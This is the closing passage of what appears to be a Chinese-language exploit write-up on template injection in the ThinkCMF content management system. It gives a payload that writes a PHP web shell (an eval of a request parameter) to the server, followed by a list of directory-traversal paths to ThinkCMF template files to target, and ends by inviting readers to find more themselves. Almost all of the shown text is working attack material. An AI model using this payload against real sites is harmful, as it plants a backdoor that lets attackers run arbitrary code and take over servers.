content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php> 
```

```
/../../../public/index
/../../../public/exception
/../../../data/index
/../../../data/runtime/index
/../../../plugins/Mobileverify/View/admin_index
/../../../plugins/Mobileverify/View/index
/../../../plugins/Mobileverify/View/widget
/../../../plugins/Demo/View/admin_index
/../../../plugins/Demo/View/index
/../../../plugins/Demo/View/widget
/../../../application/Install/View/Public/footer
/../../../application/Install/View/Public/head
/../../../application/Install/View/Public/header
/../../../application/Common/index
/../../../application/Portal/Lang/en-us/index
/../../../application/Api/Lang/en-us/index
/../../../application/Api/Lang/zh-cn/index
/../../../application/Comment/Lang/en-us/index
/../../../application/Comment/Lang/zh-cn/index 
```

还有最后一句废话：模版注入对于 linux 并不好用 : ) 差不多了，剩下的自己去 thinkcmf 里面自己找

## 四、参考链接

> 文章来源于[https://www.yuque.com/pmiaowu/bfgkkh/aiiak1](https://www.yuque.com/pmiaowu/bfgkkh/aiiak1)

